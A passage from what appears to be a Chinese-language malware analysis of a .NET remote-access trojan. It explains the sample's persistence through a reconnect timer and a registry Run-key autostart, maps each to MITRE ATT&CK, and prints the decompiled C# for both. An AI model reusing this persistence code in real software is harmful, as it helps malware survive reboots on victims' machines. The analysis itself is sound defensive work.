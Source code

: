                     break;
                }
                }
            }
            this.dlrarhsivais_working = false;
            this.dlrarhsivacapScreen = false;
        }
        this.dlrarhsivaiswitch = false;
    }
    ```
    :::

### 常駐方式
1. 根據Any.Run的ATT&CK Matrix以及我自己分析的結果，看到他使用timer這個方式當作persisten的手法，當do_start() method啟動之後，隔一段時間就會觸發連線，並且每隔一段時間就會重新檢查connection(雖然Any.Run沒有看出來)，所以我猜這個手法對應的[ATT&CK ID應該是T1053.006](https://attack.mitre.org/techniques/T1053/006/)
    ```csharp!
    public void dlrarhsivado_start()
    {
        DLAONIF.dlrarhsivaport = DLAONIF.ports[0];
        this.dlrarhsivaUPC = new MLRLEINF();
        this.dlrarhsivaCMD = new OLRDMR(this);
        this.dlrarhsivaHD.iserver = this;
        this.dlrarhsivaHD.dlrarhsivamainPath = DLAONIF.dlrarhsivaget_mpath();
        TimerCallback callback = new TimerCallback(this.dlrarhsivalookup_connect);
        System.Threading.Timer dlrarhsivatimer = new System.Threading.Timer(callback, this.dlrarhsivaStateObj, 31280, 37420);
        this.dlrarhsivaStateObj.dlrarhsivatimer = dlrarhsivatimer;
    }
    ```
2. 另外，無意間用Autorun發現他有把`Hdlharas\dlrarhsiva.exe`註冊到registry中，這也是常見的套路，以ATT&CK的framework來說，應該是[T1547.001](https://attack.mitre.org/techniques/T1547/001/)(Any.Run還是沒有看出來)，詳細的code如下
    ![圖片](https://hackmd.io/_uploads/rygmHumT6.png)
    ```csharp!
    public static void dlrarhsivaset_run(string app, string path)
    {
        try
        {
            string name = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run|dlrarhsiva".Split(new char[]
            {
                '|'
            })[0];
            RegistryKey registryKey = Registry.CurrentUser.OpenSubKey(name, true);
            string str = DLAONIF.dlrarhsivapc_id;
            object value = registryKey.GetValue(str + app);
            if (value == null)
            {
                registryKey.SetValue(str + app, path);
            }
            else if (value.ToString() != path)
            {
                registryKey.SetValue(str + app, path);
            }
        }
        catch
        {
        }
    }
    ```
    這是在`DLAONIF`這個module中，主要會由`MLREDM/dlrarhsivaload_app`這個method呼叫到，對應倒的指令是==dlrarhsiva-putsrt==
    ![圖片](https://hackmd.io/_uploads/SJqMqdXa6.png)
